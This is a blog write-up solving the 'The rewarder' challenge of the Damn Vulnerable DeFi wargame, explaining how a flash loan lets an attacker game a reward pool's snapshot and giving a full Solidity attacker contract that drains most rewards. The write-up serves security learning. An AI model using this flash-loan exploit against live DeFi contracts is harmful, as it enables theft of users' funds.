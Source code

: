 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #5 Solution — The rewarder'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-18T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #5  —  The rewarder

> There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
>
> Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
>
> You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
>
> Oh, by the way, rumours say a new pool has just landed on mainnet. Isn’t it offering DVT tokens in flash loans?

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/the-rewarder)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/the-rewarder/the-rewarder.challenge.js)

## The attacker end goal

We start with zero DVT token, and the end goal of this challenge is to steal all the Pool’s reward, or at least most of them. To do that as the challenge description suggest we have to leverage the lending pool that offer flashloans without fee.

## Study the contracts

### `FlashLoanerPool.sol`

This is the Lending pool contract, nothing wrong here. It offers a flashloan function called `flashLoan`. It’s a pretty standard function where you specify the amount, it checks to have enough token before sending them to you, execute `receiveFlashLoan(uint256)` on the `msg.sender` and then check that the sender has repaid the loan.

### `RewardToken.sol`

This is the Reward ERC20 contract. Also here nothing special, when it’s created it set up a couple of roles and only the minter role can mint tokens toward an account. Both the Admin and Minter are the `msg.sender` that created the contract.

### `AccountingToken.sol`

Is an ERC20 contract that inherit from [OpenZeppelin’s ERC20Snapshot](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20#ERC20Snapshot). Directly from the OZ documentation:

> This contract extends an ERC20 token with a snapshot mechanism. When a snapshot is created, the balances and total supply at the time are recorded for later access.

> This can be used to safely create mechanisms based on token balances such as trustless dividends or weighted voting. In naive implementations it’s possible to perform a “double spend” attack by reusing the same balance from different accounts. By using snapshots to calculate dividends or voting power, those attacks no longer apply. It can also be used to create an efficient ERC20 forking mechanism.

So basically, `AccountingToken` contract allows the `TheRewarderPool` contract to manage the amount of DVT token that have been deposited/withdrawn and the snapshot logic.

### `TheRewarderPool.sol`

This is the main contract we are interested into. Let’s dive into it and see what’s going on function by function:

`function deposit(uint256 amountToDeposit) external`

- check if the amount is > 0
- mint the `AccountingToken` 1:1 with `DVT`
- call `distributeRewards`
- `transfer` from `msg.sender` to this the deposited amount of DVT tokens and check the transfer result

`function withdraw(uint256 amountToWithdraw) external`

- burn the amount from `AccountingToken` (it’s an ERC20 contract, so it will fail if the `msg.sender` has not enough balance deposited)
- transfer back the withdrawn DVT to `msg.sender` checking the result of the operation

`function isNewRewardsRound() public view returns (bool)`

The logic here is pretty simple: `return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;`

It checks if from the last reward distribution time (`lastRecordedSnapshotTimestamp`) registered by `_recordSnapshot()` has at least passed `REWARDS_ROUND_MIN_DURATION` (5 days). Basically, it’s a new round if from the previous distribution **has passed at least 5 days**.

`function distributeRewards() public returns (uint256)`

- Check if it’s a new reward round calling `isNewRewardsRound()` (has passed 5 days). If so, call `_recordSnapshot()`
- Get the total amount of DVT token deposited in the pool on the last snapshot
- Get the amount of DVT token deposited by the user on the pool
- Calculate the amount of reward token to be rewarded to the user based on the percentage of contribution `rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;`
- If he gets some rewards and those rewards are not yet distributed to the user, the contract mint those rewards and send them to the `msg.sender`

Ok, now we have a good understanding of the scenario. For the next round, we need to have enough token deposited in the pool to get the vast majority of the rewards. The pool is not checking for how long we have deposited our tokens to distribute a fair amount of token, so we just need to have them deposited for the time had to get the rewards.

## Solution code

First we have to create a new Contract because as you can see, only a contract can execute and receive the flash loans.

This temporary contract will:

- Wait for the amount of time needed to start a new round and be able to make the Rewarder Pool trigger the `_recordSnapshot` at deposit time
- Check the amount of DVT token we can borrow with a flashloan from the Flashloan Pool
- Flashloan the max amount (we are not paying any fees)
- Deposit all the DVT token we just loaned. The `deposit` function will trigger `distributeRewards` function that will take a snapshot before distributing tokens to our account. Because we are the bigger staker in the pool, we are going to get the vast majority of reward tokens.
- Withdraw all the deposited DVT from the pool. We don’t need them anymore because we already got all the rewards needed, and we also need to repay back the loan!
- Repay back the loan to the Lending Pool
- Transfer all the rewards to the attacker

Here’s the code of the Attacker’s contract explained in the section above.

```solidity
// Do not use this code
// Part of the https://www.damnvulnerabledefi.xyz/ challenge

contract Executor {

    FlashLoanerPool flashLoanPool;
    TheRewarderPool rewarderPool;
    DamnValuableToken liquidityToken;
    RewardToken rewardToken;

    address owner;

    constructor(DamnValuableToken _liquidityToken, FlashLoanerPool _flashLoanPool, TheRewarderPool _rewarderPool, RewardToken _rewardToken) {
        owner = msg.sender;
        liquidityToken = _liquidityToken;
        flashLoanPool = _flashLoanPool;
        rewarderPool = _rewarderPool;
        rewardToken = _rewardToken;
    }

    function receiveFlashLoan(uint256 borrowAmount) external {
        require(msg.sender == address(flashLoanPool), "only pool");

        liquidityToken.approve(address(rewarderPool), borrowAmount);

        // theorically depositing DVT call already distribute reward if the next round has already started
        rewarderPool.deposit(borrowAmount);

        // we can now withdraw everything
        rewarderPool.withdraw(borrowAmount);

        // we send back the borrowed tocken
        bool payedBorrow = liquidityToken.transfer(address(flashLoanPool), borrowAmount);
        require(payedBorrow, "Borrow not payed back");

        // we transfer the rewarded RewardToken to the contract's owner
        uint256 rewardBalance = rewardToken.balanceOf(address(this));
        bool rewardSent = rewardToken.transfer(owner, rewardBalance);

        require(rewardSent, "Reward not sent back to the contract's owner");
    }

    function attack() external {
        require(msg.sender == owner, "only owner");

        uint256 dvtPoolBalance = liquidityToken.balanceOf(address(flashLoanPool));
        flashLoanPool.flashLoan(dvtPoolBalance);
    }
}
```

You can find the full solution on GitHub, looking at [TheRewarderTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/the-rewarder/TheRewarderTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract TheRewarderTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
